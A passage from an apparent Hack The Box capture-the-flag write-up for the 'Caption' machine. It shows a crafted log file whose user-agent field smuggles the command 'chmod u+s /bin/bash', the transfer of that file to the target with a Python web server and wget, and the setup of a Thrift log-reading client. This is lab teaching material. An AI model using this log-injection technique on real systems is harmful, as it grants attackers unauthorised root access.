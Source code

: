 Then we created a `malicious logfile` which `matched` the `pattern` we found earlier in the `source code` and placed the `command injection`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Caption/serve]
└─$ cat evil.log 
127.0.0.1 "user-agent":"'; chmod u+s /bin/bash #"
```

Next we uploaded the file to `/tmp` on the box.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Caption/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```c
margo@caption:/tmp$ wget http://10.10.14.73/evil.log
--2024-09-15 05:34:15--  http://10.10.14.73/evil.log
Connecting to 10.10.14.73:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 49 [application/octet-stream]
Saving to: ‘evil.log’

evil.log                                                   100%[========================================================================================================================================>]      49  --.-KB/s    in 0s      

2024-09-15 05:34:16 (4.00 MB/s) - ‘evil.log’ saved [49/49]
```

Then we created a `log_service.thrift` file on our local machine as well.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Caption/file]
└─$ cat log_service.thrift 
namespace go log_service

service LogService {
    string ReadLogFile(1: string filePath)
}
```

To compile it we installed the necessary `dependencies`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Caption/file]
└─$ sudo apt-get install thrift-compiler 
[sudo] password for kali: 
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  thrift-compiler
0 upgraded, 1 newly installed, 0 to remove and 332 not upgraded.
Need to get 1461 kB of archives.
After this operation, 4482 kB of additional disk space will be used.
Get:1 http://http.kali.org/kali kali-rolling/main amd64 thrift-compiler amd64 0.19.0-2.1+b1 [1461 kB]
Fetched 1461 kB in 0s (3997 kB/s)        
Selecting previously unselected package thrift-compiler.
(Reading database ... 773455 files and directories currently installed.)
Preparing to unpack .../thrift-compiler_0.19.0-2.1+b1_amd64.deb ...
Unpacking thrift-compiler (0.19.0-2.1+b1) ...
Setting up thrift-compiler (0.19.0-2.1+b1) ...
Processing triggers for man-db (2.12.1-3) ...
Processing triggers for kali-menu (2024.3.1) ...
```